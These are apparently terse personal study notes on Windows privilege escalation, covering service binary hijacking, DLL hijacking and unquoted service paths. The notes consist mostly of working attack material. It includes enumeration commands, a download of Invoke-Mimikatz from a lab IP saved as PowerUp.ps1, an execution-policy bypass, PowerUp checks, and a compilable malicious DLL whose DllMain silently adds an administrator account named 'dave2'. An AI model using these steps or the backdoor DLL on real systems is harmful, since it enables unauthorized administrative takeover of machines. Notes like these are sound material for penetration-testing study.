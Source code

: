 ### Service Binary Hijacking
Get-Service
Get-CimInstance

Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

icacls
Get-ACL
icacls "C:\xampp\apache\bin\httpd.exe"



replace the binary with desired exe
restart service if rights
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupMonitor'}
shutdown /r /t 0

powerup,ps1

iwr -uri http://192.168.45.186:8000/Invoke-Mimikatz.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile

### service DLL hijacking

search order for dll
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
Get-Process chrome | select -ExpandProperty modules | group -Property FileName | select name

Dllmain four cases

DLL_PROCESS_ATTACH
DLL_THREAD_ATTACH
DLL_THREAD_DETACH
DLL_PROCESS-DETACH

DLL code
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

### Unquoted Service Paths

Get-CimInstance -ClassName win32_service | Select Name,State,PathName

cmd - wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
check for rights at all path using icacls
copy the exe at path that is writeable
restart service

powerup

Get-UnquotedService